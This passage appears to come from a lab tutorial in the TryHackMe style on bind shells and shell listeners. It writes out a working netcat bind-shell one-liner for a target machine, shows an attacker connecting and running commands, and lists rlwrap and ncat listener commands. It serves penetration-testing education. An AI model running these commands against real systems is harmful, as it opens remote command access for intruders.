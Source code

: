 
## Bind Shells: Open Door on the Target

A **bind shell** listens on the target for the attacker to connect—less sneaky but useful when outbound traffic is blocked.

### Step 1: Set Up the Bind Shell
On the target:
```
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 >/tmp/f
```
- **Breakdown**:
  - Same pipe setup as reverse shell (`rm`, `mkfifo`, `cat`).
  - `bash -i 2>&1`: Interactive Bash shell with errors redirected.
  - `nc -l 0.0.0.0 8080`: Listens on all interfaces (0.0.0.0) on port 8080.
  - `>/tmp/f`: Loops output back for two-way comms.

It waits silently for a connection.

### Step 2: Connect to It
From the attacker:
```
attacker@kali:~$ nc -nv 10.10.13.37 8080
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$ whoami
target
target@tryhackme:~$ pwd
/home/target
```
- `-n`: No DNS.
- `-v`: Verbose.
- `10.10.13.37 8080`: Target IP and port.

Now you’re in!

---

## Listener Tools: Beyond Netcat

Netcat’s great, but here are more tools to catch shells:

- **Rlwrap**  
  Adds arrow keys and history to Netcat:
  ```
  attacker@kali:~$ rlwrap nc -lvnp 443
  listening on [any] 443 ...
  ```

- **Ncat** (Nmap’s Netcat)  
  Basic listener:
  ```
  attacker@kali:~$ ncat -lvnp 443
  Ncat: Listening on 0.0.0.0:443
  ```
  With SSL:
  ```
  attacker@kali:~$ ncat --ssl -lvnp 443
  Ncat: Listening on 0.0.0.0:443
  ```
